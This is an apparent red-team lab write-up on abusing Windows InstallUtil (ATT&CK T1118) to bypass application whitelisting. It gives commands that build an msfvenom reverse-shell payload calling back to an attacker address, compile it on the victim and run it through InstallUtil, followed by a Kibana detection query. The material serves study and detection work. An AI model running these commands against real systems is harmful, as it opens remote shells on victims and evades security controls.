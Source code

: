```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode %}

Compile the .cs to an .exe:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode %}

Execute the payload:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode %}

Enjoy the sweet reverse shell:

![](../../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode %}

![InstallUtil launching the malicious payload](../../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" caption="" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" caption="" %}

